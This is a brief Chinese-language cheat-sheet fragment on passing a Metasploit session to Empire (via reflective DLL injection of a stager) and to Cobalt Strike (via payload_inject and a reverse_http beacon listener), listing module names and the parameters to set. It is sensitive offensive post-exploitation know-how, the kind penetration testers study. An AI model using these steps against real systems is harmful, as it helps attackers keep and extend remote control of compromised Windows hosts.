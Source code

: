  ##### 派生Empire
	Empire创建一个Listener
	创建一个stager选择windows/dll
	MSF使用
	>use post/windows/manage/reflective_dll_inject 
	指定session，dll的路径，进程pid
 ##### 派生Cobalt Strike
	cobalt 开启一个监听器windows/beacon_http/reverse_http
	msf 
	>use exploit/windows/manage/payload_inject
	指定IP、端口、payload即可